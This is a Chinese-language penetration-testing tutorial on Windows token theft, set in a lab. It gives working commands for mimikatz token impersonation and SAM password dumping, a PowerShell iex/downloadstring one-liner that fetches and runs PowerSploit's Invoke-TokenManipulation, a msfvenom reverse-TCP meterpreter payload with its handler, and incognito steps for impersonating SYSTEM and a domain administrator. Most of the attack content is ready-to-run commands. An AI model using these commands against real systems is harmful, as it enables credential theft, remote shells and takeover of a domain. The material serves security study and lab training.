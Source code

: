 # 令牌窃取

Windows有两种类型的Token：

·Delegation token\(授权令牌\):用于交互会话登录\(例如本地用户直接登录、远程桌面登录\)

·Impersonation token\(模拟令牌\):用于非交互登录\(利用net use访问共享文件夹\)

注：

两种token只在系统重启后清除

具有Delegation token的用户在注销后，该Token将变成Impersonation token，依旧有效

#### 使用mimikatz的token模块中的命令列出token，模仿system用户token，最后恢复到原来的token <a id="-mimikatz-token-token-system-token-token"></a>

进入mimikatz文件夹，右键mimikatz.exe，选择以管理员身份运行

![](https://p408.ssl.qhimgs4.com/t01904f612c4553f313.png)

使用privilege::debug获取debug权限

![](https://p408.ssl.qhimgs4.com/t019c32ca2abe92e57f.png)

使用token::elevate模仿system用户的令牌

![](https://p408.ssl.qhimgs4.com/t015b5ba6e4d07a3638.png)

使用token::list列出令牌

![](https://p408.ssl.qhimgs4.com/t0124379b879dd76e6e.png)

使用 lsadump::sam来获取sam数据库中的密码

![](https://p408.ssl.qhimgs4.com/t0147703bffdfaddb38.png)

使用token::revert恢复令牌

![](https://p408.ssl.qhimgs4.com/t018197da4fa7e7c38b.png)

#### 使用powershell下载执行令牌窃取工具Invoke-TokenManipulation.ps1 <a id="-powershell-invoke-tokenmanipulation-ps1"></a>

Invoke-TokenManipulation下载地址为：[https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-TokenManipulation.ps1](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-TokenManipulation.ps1)

打开一个powershell

![](https://p408.ssl.qhimgs4.com/t010dbf18cb00c6f5b8.png)

了解invoke-expression的功能： 运行一个以字符串形式提供的Windows PowerShell表达式，可以简化为iex

了解downloadstring的用法: \(new-object net.webclient\).downloadstring\(‘脚本的下载地址’\) 下载的内容保存在内存当中，数据类型为字符串，可以使用iex当做powershell命令执行

![](https://p408.ssl.qhimgs4.com/t01ec32a25d43c63ada.png)

最后是执行脚本中的cmdlet：

```text
Iex (new-object net.webclient).downloadstring(‘https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-TokenManipulation.ps1’);
Invoke-TokenManipulation
```

合并为一条语句

```text
Iex (new-object net.webclient).downloadstring(‘https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-TokenManipulation.ps1’);Invoke-TokenManipulation
```

![](https://p408.ssl.qhimgs4.com/t01178d71f4b432c1d0.png)

使用get-help Invoke-TokenManipulation 来查看帮助 get-help Invoke-TokenManipulation –examples来查看例子

![](https://p408.ssl.qhimgs4.com/t0109414cecf0b3607e.png)

枚举令牌： Invoke-TokenManipulation –enumerate

![](https://p408.ssl.qhimgs4.com/t01de05efd8ea0dd1c4.png)

模仿system账户的令牌，之后恢复令牌（-revtoself）

```text
Invoke-TokenManipulation -ImpersonateUser -Username "NT AUTHORITY\system"
Invoke-TokenManipulation -RevToSelf
```

![](https://p408.ssl.qhimgs4.com/t01be5475d24f48e583.png)

#### 在meterpreter中使用incognito模块窃取令牌 <a id="-meterpreter-incognito-"></a>

获取meterpreter的过程如下： 在shell中输入： ifconfig

![](https://p408.ssl.qhimgs4.com/t0186b52f1c1d81f6d2.png)

可以看到红线的地方就是本主机的ip地址，需要将meterpreter反弹到此ip地址上，例如：

```text
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.59 LPORT=4444 -f exe -o exp1.exe
```

这样会在当前目录下生成一个exp1.exe文件

![](https://p408.ssl.qhimgs4.com/t01770f917a2d03ea0e.png)

将这个文件拷贝到windows 2012实验主机上 此主机上继续执行msfconsole，打开metasploit

![](https://p408.ssl.qhimgs4.com/t0158c224690475dae1.png)

输入use exploit/multi/handler

![](https://p408.ssl.qhimgs4.com/t0120dfefb19d78ecd7.png)

输入下列命令： set payload windows/meterpreter/reverse\_tcp set lhost 本机ip地址（上面使用ifconfig查看的ip地址） set lport 4444 run

![](https://p408.ssl.qhimgs4.com/t018e5145332575d640.png)

在windows主机上执行msf生成的木马 正常情况如下图，有一个meterpreter反弹回来

![](https://p408.ssl.qhimgs4.com/t01f0a9ba0f3050e2fa.png)

在meterpretr界面中输入load incognito来加载模块

![](https://p408.ssl.qhimgs4.com/t018edbaf3372ea1689.png)

输入help指令可以查看相关命令

![](https://p408.ssl.qhimgs4.com/t0174ccb1818396f500.png)

分别使用list\_tokens –u与list\_tokens -g

使用impersonate\_token来窃取令牌，注意反斜线的转义

```text
impersonate_token "NT AUTHORITY\\SYSTEM"
```

![](https://p408.ssl.qhimgs4.com/t01d8dabbccf121ccda.png)

最后使用rev2self来恢复令牌

#### 应用举例 <a id="-"></a>

以本地管理员账户登录，查看Token

```text
incognito.exe list_tokens -u
```

![](https://p408.ssl.qhimgs4.com/t011ee70e1b4a77ed2a.png)

发现域管账户SCHOOL\Administrator

尝试列出域控目录：

![](https://p408.ssl.qhimgs4.com/t01eb5f7d0935632286.png)

以域管的Token启动一个CMD

```text
incognito.exe execute -c "SCHOOL\Administrator" cmd.exe
```

![](https://p408.ssl.qhimgs4.com/t015e012c6b70a7b593.png)

再次列出域控目录：

![](https://p408.ssl.qhimgs4.com/t013160eba44b562ee0.png)

